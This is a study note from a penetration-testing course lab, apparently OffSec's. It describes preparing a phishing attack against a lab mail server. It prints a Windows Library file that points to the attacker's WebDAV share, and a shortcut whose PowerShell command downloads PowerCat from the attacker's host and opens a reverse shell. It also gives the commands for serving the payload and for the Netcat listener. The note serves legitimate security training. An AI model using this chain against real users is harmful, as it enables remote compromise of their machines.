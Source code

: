 Summary:
- We used the information we retrieved in the previous Learning Unit and leveraged it in a password attack against MAILSRV1. This password attack resulted in discovering one valid set of credentials. Then, we enumerated the SMB shares on MAILSRV1 as john without any actionable results.

### Phishing for Access

Set up:
- For this attack, we have to set up a WebDAV server, a Python3 web server, a Netcat listener, and prepare the Windows Library and shortcut files.

Start:
- Set up the WebDAV share on our Kali machine on port 80 with *wsgidav*.
	- `mkdir /home/kali/beyond/webdav`
	- `/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/`
- Now, let's connect to WINPREP via RDP as *offsec* with a password of *lab* in order to prepare the Windows Library and shortcut files. 
- Once connected, we'll open *Visual Studio Code* and create a new text file on the desktop named **config.Library-ms**.
- Now, let's copy the Windows Library code we previously used in the *Client-Side Attacks Module*, paste it into Visual Studio Code, and check that the IP address points to our Kali machine.
	- 
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Let's save the file and transfer it to **/home/kali/beyond** on our Kali machine.
- Next, we'll create the shortcut file on WINPREP. For this, we'll right-click on the Desktop and select *New > Shortcut*. 
- **A victim double-clicking the shortcut file will download PowerCat and create a reverse shell**. We can enter the following command to achieve this:
	- `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"`
- Once we enter the command and **install** as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory.
- Our next step is to serve PowerCat via a Python3 web server. Let's copy **powercat.ps1** to **/home/kali/beyond** and serve it on port 8000 as we have specified in the shortcut's PowerShell command.
	- `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
	- `python3 -m http.server 8000`
- Start a Netcat listener on port 4444 in a new terminal tab to catch the incoming reverse shell from PowerCat.
	- `nc -lvnp 4444`
- [Note]:
	- We could also use the WebDAV share to serve Powercat instead of the Python3 web server. However, serving the file via another port provides us additional flexibility.